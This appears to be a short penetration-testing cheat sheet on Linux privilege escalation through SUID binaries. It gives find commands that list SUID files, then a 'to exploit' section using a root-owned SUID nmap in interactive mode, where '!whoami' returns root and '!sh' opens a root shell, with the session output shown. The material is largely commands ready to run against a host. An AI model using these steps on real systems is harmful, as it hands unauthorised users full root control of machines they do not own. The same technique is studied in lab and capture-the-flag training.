 **suid** on binary

```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
```bash
find / -type f -perm -4001 -exec ls -lah {} \; 2> /dev/null
```

#### nmap 
```
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
```
- **to exploit**
```bash
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
root
waiting to reap child : No child processes
nmap> !sh
# id
```
